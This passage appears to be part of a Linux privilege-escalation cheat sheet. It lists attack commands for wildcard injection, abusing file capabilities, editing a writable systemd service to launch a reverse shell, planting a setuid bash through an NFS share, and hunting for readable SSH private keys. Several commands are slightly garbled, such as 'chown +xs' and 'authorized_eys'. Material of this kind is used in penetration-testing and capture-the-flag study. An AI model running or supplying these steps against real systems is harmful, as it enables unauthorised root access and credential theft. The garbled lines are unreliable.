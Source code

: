 ### Wildcard Injection

```shell
cat /etc/crontab
touch ./--parameter=1
```

---

# CAPABILITIES

```shell
capsh --print
cat /proc/sys/kernel/cap_last_cap
getcap program_name
getcap -r / 2>/dev/null
setcap cap_setuid+ep program_name
# GTFObins
```

---

# SERVICES

### Writable .service Files

```shell
service --status-all
systemctl list-unit-files --type=service
systemctl list-unit-files --state=failed
ls -l /etc/systemd/system /usr/lib/systemd/service | grep .service$
nano /usr/bin/service_name -> ExecStart = reverse shell
systemctl daemon-reload
systemctl start service_name
```

### NFS - Root Squashing

```shell
showmount -e IP_ADDR
mount -o rw IP_ADDR:/PATH ~/Desktop
cp /bin/bash ~/Desktop
chown root:root bash
chown +xs bash
./bash -p
```

### SSH - Readable Private Keys

```shell
ls -la /home /root /etc/ssh /home/*/.ssh
locate id_rsa
locate id_dsa
find / -name id_rsa 2>/dev/null
find / -name id_dsa 2>/dev/null
find / -name authorized_eys 2>/dev/null
id_rsa.pub -> authorized_keys
```

---